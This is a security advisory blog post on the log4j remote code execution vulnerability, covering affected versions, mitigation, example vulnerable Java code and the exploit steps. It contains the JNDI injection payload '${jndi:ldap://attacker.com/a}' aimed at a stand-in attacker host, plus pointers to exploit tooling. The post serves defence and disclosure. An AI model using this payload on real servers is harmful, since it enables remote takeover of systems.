 ```yaml
---
title: RCE 0-day exploit found in log4j, a popular Java logging package
description: Given how ubiquitous this library is, the impact of this vulnerability is quite severe. Learn how to patch it, why it's bad, and more in this post.
slug: log4j-zero-day
authors:
- name: Free Wortley 
  title: CEO at LunaSec 
  url: https://github.com/freeqaz
  image_url: https://github.com/freeqaz.png
  tags: [zero-day, security, data-security, data-breaches]
- name: Chris Thompson
  title: Developer at Lunasec
  url: https://github.com/breadchris
  image_url: https://github.com/breadchris.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

A few hours ago, a 0-day exploit in the
popular Java logging library, `log4j`, was [tweeted](https://twitter.com/P0rZ9/status/1468949890571337731) along with a POC posted on
[GitHub](https://github.com/tangxiaofeng7/apache-log4j-poc) that results in Remote Code Execution (RCE) if
`log4j` logs an attacker-controlled string value.

Given how ubiquitous this library is, the impact of the exploit (full server control), and how easy it is to exploit,
the impact of this vulnerability is quite severe. Since this vulnerability is still very new, there isn't a CVE to track
it yet.

This post provides resources to help you understand the vulnerability and how to mitigate it for yourself.

<!--truncate-->

## Who is impacted?
Cloud services like [Steam, Apple iCloud](https://news.ycombinator.com/item?id=29499867), and apps like
Minecraft have been found to be vulnerable to this exploit. Many, many others likely are, also.

Anybody using Apache Struts is likely vulnerable. We've seen similar vulnerabilities exploited before in breaches like 
the [2017 Equifax data breach](https://en.wikipedia.org/wiki/2017_Equifax_data_breach#Data_breach).

Many Open Source projects
like the Minecraft server, [Paper](https://github.com/PaperMC/Paper/commit/b475c6a683fa34156b964f751985f36a784ca0e0),
have already begun patching their usage of `log4j`.

## Affected Apache log4j Versions

`2.0 <= Apache log4j <= 2.14.1`

At the time this post was created (December 9th, 2021) a patch is available in `log4j-2.15.0-rc1`
[here](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1).

## Temporary Mitigation

Start your server with `log4j2.formatMsgNoLookups` set to `true`, or update to `log4j-2.15.0-rc1` or later. 
(Kudos to @80vul for [tweeting](https://twitter.com/80vul/status/1468968891489857537))

## How the exploit works

### Exploit Requirements 
- A server running with a vulnerable `log4j` version (listed above),
- A remotely accessible endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send arbitrary data,
- A log statement in the endpoint that logs the attacker controlled data.

### Example Vulnerable Code

```java
import org.apache.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

### Exploit Steps
1. Data from the User gets sent to the server (via any protocol),
2. The server logs the data in the request, containing the malicious payload: `${jndi:ldap://attacker.com/a}` (where `attacker.com` is an attacker controlled server),
3. The `log4j` vulnerability is triggered by this payload and the server makes a request to `attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI),
4. This response contains a path to a remote Java class file (ex. `http://second-stage.attacker.com/Exploit.class`) which is injected into the server process,
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

Due to how common Java vulnerabilities such as these are, security researchers have created tools to easily exploit 
them. The [marshalsec](https://github.com/mbechler/marshalsec) project is one of many that demonstrates generating an
exploit payload that could be used for this vulnerability. You can refer to [this malicious LDAP server](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) for an example of exploitation. 

## More information

We'll continue to update this post as information about the impact of this exploit becomes available.

For now, we're just publishing this to help raise awareness and get people patching it. Please tell any of your friends 
running Java software!

**Note from the Author:** If you have any updates or edits you'd like to make, you can edit this post as Markdown on 
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-09-log4j-zero-day.md). And throw us a Star ⭐, please!

## Links
- **[Hacker News](https://news.ycombinator.com/item?id=29504755)**
- **[Reddit](https://old.reddit.com/r/programming/comments/rcxehp/rce_0day_exploit_found_in_log4j_a_popular_java/)**
- **[Twitter](https://twitter.com/freeqaz/status/1469121757361569793?s=20)**
